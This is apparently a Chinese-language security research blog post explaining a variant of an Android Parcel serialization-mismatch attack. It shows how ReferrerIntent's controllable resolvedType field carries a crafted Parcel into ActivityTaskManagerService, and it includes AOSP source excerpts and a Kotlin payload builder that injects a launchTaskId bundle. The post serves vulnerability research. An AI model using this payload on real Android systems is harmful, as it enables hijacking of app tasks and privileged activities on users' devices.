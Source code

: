 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [konata.github.io](https://konata.github.io/posts/creator-mismatch-cont/)

> ReferrerIntent

ReferrerIntent[](#referrerintent)
---------------------------------

上文中使用了 `LabeledIntent` 作为 Intent 的子类来完成序列化不对称攻击, 里面说明了不选择 `ReferrerIntent` 的理由, 因为 `ReferrerIntent` 只多出一个 String16 的字段是我们可以控制的, 如下

```
public void writeToParcel(Parcel dest, int parcelableFlags) {
        super.writeToParcel(dest, parcelableFlags); // Intent
        dest.writeString(mReferrer); // 多出一个 String16
    }
```

和 `IActivityTaskManager.startActivity` 的参数做一个对比

```
Intent _arg3 = data.readTypedObject(android.content.Intent.CREATOR); // ReferrerIntent.mIntent
    java.lang.String resolvedType = data.readString(); // ReferrerIntent.mReferrer
    android.os.IBinder resultTo = data.readStrongBinder(); // resolvedType
    java.lang.String resultWho = data.readString(); // ...
    int requestCode = data.readInt();
    int flags = data.readInt();
    android.app.ProfilerInfo profilerInfo = data.readTypedObject(android.app.ProfilerInfo.CREATOR);
    android.os.Bundle options = data.readTypedObject(android.os.Bundle.CREATOR);
```

这个 String16 马上就被 `resolvedType` 消耗掉, 导致只能利用 `ChooseTypeAndAccountActivity` 自己提供的参数的错位来完成利用, 但是跟一下源码你会发现, 其实 `resolvedTyped` 也刚好是我们可以控制的, 如下

```
// Instrumentation.execStartActivity
int result = ActivityTaskManager.getService().startActivity(whoThread,
                who.getOpPackageName(), who.getAttributionTag(), intent,
                intent.resolveTypeIfNeeded(who.getContentResolver()), // ⬅️ resolvedType
                token,
                target != null ? target.mEmbeddedID : null, requestCode, 0, null, options);
```

```
// Intent.resolveTypeIfNeeded
public @Nullable String resolveTypeIfNeeded(@NonNull ContentResolver resolver) {
      // Match logic in PackageManagerService#applyEnforceIntentFilterMatching(...)
      if (mComponent != null && (Process.myUid() == Process.ROOT_UID
              || Process.myUid() == Process.SYSTEM_UID
              || mComponent.getPackageName().equals(ActivityThread.currentPackageName()))) {
          return mType; // ⬅️
      }
      return resolveType(resolver); // ⬇️
}

public @Nullable String resolveType(@NonNull ContentResolver resolver) {
     if (mType != null) {
         return mType; // ⬅️
     }
     if (mData != null) {
         if ("content".equals(mData.getScheme())) {
             return resolver.getType(mData);
         }
     }
     return null;
}
```

也就是说 ChooseTypeAndAccountActivity 提供给 ActivityTaskManagerService 的 resolvedType 参数, 其实也可以从 Intent 参数里面获取的, 这样就可以把 payload 全部藏在 resolvedType (即 intent.mType) 中, 由于只涉及修改一个 String16 字段, 整个 payload 的构造更简单, 如下

```
fun referrerIntent(): ReferrerIntent {
        val payload = Parcel.obtain().apply {
          writeInt(fixme(72)) //  -> string length, first part of binder

          // remain binder parts
          writeInt(2)
          writeInt(3)
          writeInt(4)
          writeInt(5)
          writeInt(6)

          writeString(null) // resultWho
          writeInt(0) // requestCode
          writeInt(0) // flags
          writeTypedObject(null, 0) // profiler info

          run {  // bundle
            writeInt(1) // typed object indicator
            writeInt(fixme(148)) // bundle back patch length
            writeInt(Const.BundleMagic)  // "BNDL"
            writeInt(2) // entry count
            writeString("android.activity.launchTaskId") // key 1
            writeValue(taskId) // value 1
            writeString("_") // key 2
            run { // value 2
              writeInt(Const.ValByteArray)
              writeInt(fixme(56)) // byte array length
              writeInt('@'.code) // 0
              writeInt(0) // String16 terminator and padding
            }
          }
        }
        payload.setDataPosition(0)
        val intent = intentFor<LoginActivity>().setType(payload.readString())
        return ReferrerIntent(intent, null)
      }
```

看一下效果

[![](https://konata.github.io/assets/images/tasks-before.png)](https://konata.github.io/assets/images/tasks-before.png)

[![](https://konata.github.io/assets/images/tasks-after.png)](https://konata.github.io/assets/images/tasks-after.png)

This post is licensed under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) by the author.